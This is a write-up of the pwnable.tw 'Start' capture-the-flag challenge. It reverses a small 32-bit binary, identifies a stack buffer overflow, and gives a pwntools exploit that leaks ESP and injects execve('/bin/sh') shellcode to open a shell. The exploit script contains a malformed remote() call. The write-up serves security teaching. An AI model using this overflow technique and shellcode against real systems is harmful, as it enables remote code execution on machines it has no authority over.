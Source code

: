 # Writeup for the first challenge on Pwnable.tw: Start

## Examine

Let's look at the challenge first.

![The challenge](https://media.discordapp.net/attachments/1001097982957068298/1017971596805283854/unknown.png)

Just that. No hint.

But this's the first one so it should be easy anyway, let's dig deep into.

Connect to the nc server and we have:

![netcat](https://media.discordapp.net/attachments/1001097982957068298/1017973004078166037/unknown.png)

It waits for our input, try to put some text, and the connection just close, nothing happened. The **file** command used on the downloaded binary file gives us some information:

![file](https://media.discordapp.net/attachments/1001097982957068298/1017974220078194708/unknown.png)

Cool. 32-bit so we should use IDA 32 instead of 64.

Open it on IDA and there are only 2 functions: _start and _exit.

The _start function:

![_start](https://media.discordapp.net/attachments/1001097982957068298/1017987415325016164/unknown.png)

Understanding the code in each group in order/ reverse order:
- Push esp, _exit onto the stack, use **XOR** to clean up registers.
- Push the string: `'Let's start the CTF:'` onto the stack. In another word, the $esp register holds the string at this step.
- _0x08048087_ - _0x0804808f_: When you see the `int 0x80`, before it should be a syscall. In this case, al register (8 bits version of eax) is set to 4, so the function wants to call sys_write here. 

```c
ssize_t write(int fd, const void *buf, size_t count);
```

`write() writes up to count bytes from the buffer starting at buf to the file referred to by the file descriptor fd.`

_write(2) — Linux manual page_

The fd, in this case, is set to 1 (mov bl,1), which means it wants the program to print the output to STDOUT instead of file(s).

```assembly
mov bl, 0x14
```
Size of the string it wants to print.

```assembly
mov ecx, esp
```
ECX will hold "Let's start the CTF:" from now on and parse to write() as `const void *buf`

- _0x08048091_ - _0x08048097_: This time, the al is set to 3, which means it wants to call sys_read.

```c
ssize_t read(int fd, void *buf, size_t count);
```

`read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.`

_read(2) - Linux manual page_

```assembly
XOR ebx, ebx
```
Clean up the register.

```assembly
mov dl, 0x3C
```
Read 60 bytes from STDINT.

- And the problem happen at _0x08048099_ - _0x0804809c_

```assembly
add esp, 0x14
retn
```

But the `sys_read` allow us to write 60 bytes into the stack, this's where the [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow) happens.

## Exploit

We have confirmed this binary has [Buffer Overflow](https://en.wikipedia.org/wiki/Buffer_overflow) vulnerability. Our input from buf[20] will overwrite the Instruction Pointer (EIP).

> EIP is a register in x86 architectures (32bit). It holds the "Extended Instruction Pointer" for the stack. In other words, it tells the computer where to go next to execute the next command and controls the flow of a program.

To make sure, we open the binary in pwn-dbg and type 24 characters "A" to the input (the last 4 "A" to overwrite $EIP).

And we get:

![BOF](https://media.discordapp.net/attachments/1001097982957068298/1018049372749037608/unknown.png)

So we successfully overwrite EIP. And if we continue to execute the program, it will jump to _0x41414141_ (ASCII character of "A"), which is an invalid address.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

And now the exploit will be:

- Overwrite the $EIP to _0x08048087_ to call sys_write one more time to write _0x14_ bytes on the stack. And the first 4 bytes will be the address of $ESP. Next, it will execute the sys_read one more time, the same as the previous one, allowing us to input the second payload.
- The second payload will overwrite $EIP's address with the leaked $ESP address + _0x14_ + [shellcode](http://shell-storm.org/shellcode/) to give us a shell.

About learning to write shellcode, visit [here](https://www.vividmachines.com/shellcode/shellcode.html#:~:text=In%20computer%20security%2C%20shellcoding%20in,to%20accomplish%20a%20desired%20task.).

**Exploit.py** (using Pwntools)

```python
from pwn import *
r = remote('nc chall.pwnable.tw, '10000')
r.recvuntil(':')
garbage = b'A'*0x14
payload = garbage + p32(0x8048087)
r.send(payload)
leak_esp = u32(r.recv()[:4])
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload2 = garbage + p32(leak_esp+0x14) + shellcode
r.sendline(payload2)
r.interactive()
```

Run the exploit, and we win.

![getflag](https://media.discordapp.net/attachments/1001097982957068298/1018086283702186074/unknown.png)
